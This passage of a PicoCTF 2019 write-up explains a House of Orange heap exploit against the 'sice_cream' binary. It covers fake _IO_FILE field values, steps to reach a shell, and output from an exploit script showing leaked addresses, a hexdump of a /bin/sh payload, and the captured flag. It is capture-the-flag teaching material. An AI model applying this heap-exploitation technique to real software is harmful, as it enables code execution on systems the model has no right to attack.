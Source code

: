     ([Image Source](https://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html))

8. In addition to sorting, `malloc` will also perform certain size checks on them, so after sorting the old top chunk and following the bogus fd pointer to `_IO_list_all`, it will check the corresponding size field, detect that the size is smaller than `MINSIZE` (`size <= 2 * SIZE_SZ`) and finally triggering the abort call that gets our chain rolling.
9. We also need to satisfy the constraints on the fake file pointer required by the function `_IO_flush_all_lockp`:

    1. fp->_mode <= 0
    2. fp->_IO_write_ptr > fp->_IO_write_base

    These can be solved with:

    ```c++
    fp->_mode = 0; // top+0xc0
    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28
    ```

10. Summarized process to trigger a shell:

    1. Request an allocation smaller than `0x58`, so that the unsorted chunk will try to be processed.
    2. The unsorted bin write triggered in the process will set `_IO_list_all` to our arena top.
    3. The unsorted check itself will fail and trigger the abort sequence.
    4. The abort sequence will subsequently make the checks discussed in step 9. This convinces the program that our memory region is a valid `_IO_FILE` structure.
    5. As the procedure continues, it will call the jump `table[3]` function where our gadget is waiting.
    6. Pop a shell and `cat` the flag.

11. Run the [script.py](script.py) and get the flag `python2 script.py`:

    ```
    [*] '~/Documents/PicoCTF/Binary Exploitation/sice_cream/sice_cream'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        RUNPATH:  './'
    [*] '~/Documents/PicoCTF/Binary Exploitation/sice_cream/libc.so.6'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [+] Opening connection to 2019shell1.picoctf.com on port 3972: Done
    [*] Leaked heapbase: 0x14c1000
    [*] Leaked libc: 0x7f8fccb6c000
    [*] _IO_list_all: 0x7f8fccf31520
    [*] system: 0x7f8fccbb1390
    [*] payload:
        00000000  2f 62 69 6e  2f 73 68 00  61 00 00 00  00 00 00 00  │/bin│/sh·│a···│····│
        00000010  ef be ad de  00 00 00 00  10 15 f3 cc  8f 7f 00 00  │····│····│····│····│
        00000020  02 00 00 00  00 00 00 00  03 00 00 00  00 00 00 00  │····│····│····│····│
        00000030  90 13 bb cc  8f 7f 00 00  90 13 bb cc  8f 7f 00 00  │····│····│····│····│
        *
        000000c0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
        000000d0  00 00 00 00  00 00 00 00  a0 20 60 00  00 00 00 00  │····│····│· `·│····│
        000000e0
    [+] flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_8d25b643}
    [*] Closed connection to 2019shell1.picoctf.com port 3972
    ```

